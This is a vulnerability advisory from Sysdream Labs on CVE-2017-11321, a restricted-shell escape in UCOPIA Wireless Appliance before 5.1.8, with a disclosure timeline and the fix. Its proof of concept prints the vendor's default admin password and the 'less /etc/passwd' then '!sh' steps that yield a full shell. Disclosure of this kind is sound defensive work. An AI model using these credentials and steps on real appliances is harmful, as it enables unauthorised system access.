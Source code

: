 # [CVE-2017-11321] UCOPIA Wireless Appliance < 5.1.8 Restricted Shell Escape

## Asset Description

UCOPIA solutions bring together a combination of software, appliance and cloud services serving small to large customers.

More than 12,000 UCOPIA solutions are deployed and maintained by UCOPIA expert partners all over the world.

The affected asset in this report is a WiFi management appliance.


## Vulnerability

Shell Escape via `less` command.

**Threat**

Improper sanitization of system commands in the restricted shell interface in UCOPIA Wireless Appliance, prior to 5.1.8, allows remote attackers to gain access to a system shell as the "admin" user.

**CVE ID**: CVE-2017-11321

**Access Vector**: network

**Security Risk**: critical

**Vulnerability**: CWE-78

**CVSS Base Score**: 9.1 (Critical)

**CVSS Vector**: CVSS:3.0/AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H

### Proof of Concept: Restricted Shell Escape

By default, the UCOPIA wireless appliances exposes two shell access on port 22 (SSH) and 222 (ShellInTheBox).

A documented **admin** user exists on the system with the password **bhu85tgb**.

Quoted from the documentation :

> You can also retrieve the IP address of the outgoing interface. For this, you need to log in to the terminal of the virtual machine with
the following username and password: admin/bhu85tgb, and then execute the interface command.

By logging in within these interfaces, we can access to a restricted shell (*clish*) that allows only a few commands.

However, the `less` command is allowed, and because `less` allows to execute shell commands when viewing a file, we can use it to escape the restricted shell.

Steps :

**1/** Login to the appliance using SSH or ShellInTheBox.

**2/** Run the `less /etc/passwd` command.

**3/** When viewing the file, type `!sh`

**4/** You now have unrestricted `admin` user access to the appliance.

```
> less /etc/passwd
!sh
$ ls /
bin dev etc home lib proc tmp user
$ whoami
admin
```

## Solution

Update to UCOPIA 5.1.8

## Timeline (dd/mm/yyyy)

* 08/03/2017 : Vulnerability discovery.
* 03/05/2017 : Initial contact.
* 10/05/2017 : GPG Key exchange.
* 10/05/2017 : Advisory sent to vendor.
* 17/05/2017 : Request for feedback.
* 22/05/2017 : Vendor acknowledge the vulnerabilities.
* 21/06/2017 : Sysdream Labs request for an ETA, warning for public disclosure.
* 21/06/2017 : Vendor say that the UCOPIA 5.1.8 fixes the issue.
* 29/09/2017 : Public disclosure.

## Credits

* Nicolas CHATELAIN, Sysdream (n.chatelain -at- sysdream -dot- com)

--
SYSDREAM Labs <labs@sysdream.com>
GPG : 47D1 E124 C43E F992 2A2E 1551 8EB4 8CD9 D5B2 59A1
* Website: https://sysdream.com/
* Twitter: @sysdream